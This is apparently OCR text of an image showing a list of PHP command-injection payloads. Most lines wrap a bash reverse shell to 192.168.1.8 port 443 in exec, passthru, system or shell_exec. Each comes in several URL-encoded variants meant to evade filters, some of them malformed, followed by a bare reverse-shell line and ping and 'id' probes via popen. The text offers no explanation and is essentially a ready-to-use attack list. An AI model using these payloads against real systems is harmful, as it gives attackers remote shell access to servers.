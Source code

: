       exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.8/443 0>&1'")
    
      exec("/bin/bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/192.168.1.8/443%200%3E%261'")
      
      exec("/bin/bash%20-c%20bash%20-i%20%3E%26%20/dev/tcp/192.168.1.8/443%200%3E%261'")
      
      exec("%22%2Fbin%2Fbash%20-c%20'bash%20-i%20%3E%26%20/dev%2Ftcp%2F192.168.1.8%2F443%200%3E%261%27%22")
      
      exec("%657%2Fbin%2Fbash%20-c%20'bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.8%2F443%200%3E%261%27%22%29")
  
      
      passthru("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.8/443 0>&1'")
      
      passthru("/bin/bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/192.168.1.8/443%200%3E%261'")
      
      passthru("/bin/bash%20-c%20bash%20-i%20%3E%26%20/dev/tcp/192.168.1.8/443%200%3E%261'")
      
      passthru("%22%2Fbin%2Fbash%20-c%20'bash%20-i%20%3E%26%20/dev%2Ftcp%2F192.168.1.8%2F443%200%3E%261%27%22")
      
      passthru("%657%2Fbin%2Fbash%20-c%20'bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.8%2F443%200%3E%261%27%22%29")
  
      
      system("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.8/443 0>&1'")
      
      system("/bin/bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/192.168.1.8/443%200%3E%261'")
      
      system("/bin/bash%20-c%20bash%20-i%20%3E%26%20/dev/tcp/192.168.1.8/443%200%3E%261'")
      
      system("%22%2Fbin%2Fbash%20-c%20'bash%20-i%20%3E%26%20/dev%2Ftcp%2F192.168.1.8%2F443%200%3E%261%27%22")
      
      system("%657%2Fbin%2Fbash%20-c%20'bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.8%2F443%200%3E%261%27%22%29")
  
      
      shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.8/443 0>&1'")
      
      shell_exec("/bin/bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/192.168.1.8/443%200%3E%261'")
      
      shell_exec("/bin/bash%20-c%20bash%20-i%20%3E%26%20/dev/tcp/192.168.1.8/443%200%3E%261'")
      
      shell_exec("%22%2Fbin%2Fbash%20-c%20'bash%20-i%20%3E%26%20/dev%2Ftcp%2F192.168.1.8%2F443%200%3E%261%27%22")
      
      shell_exec("%657%2Fbin%2Fbash%20-c%20'bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.8%2F443%200%3E%261%27%22%29")
  
      
      ping -c 4 127.0.0.1
      
      ping%20-c%204%20127.0.0.1
  
      
      /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.8/443 0>&1'
      
      %2Fbin%2Fbash%20-c%20'bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.8%2F443%200%3E%261%27
  
  
      
      popen("id", "r");
      popen("ping -c 4 127.0.0.1", "r");
      popen("ping -c 40 127.0.0.1", "r");

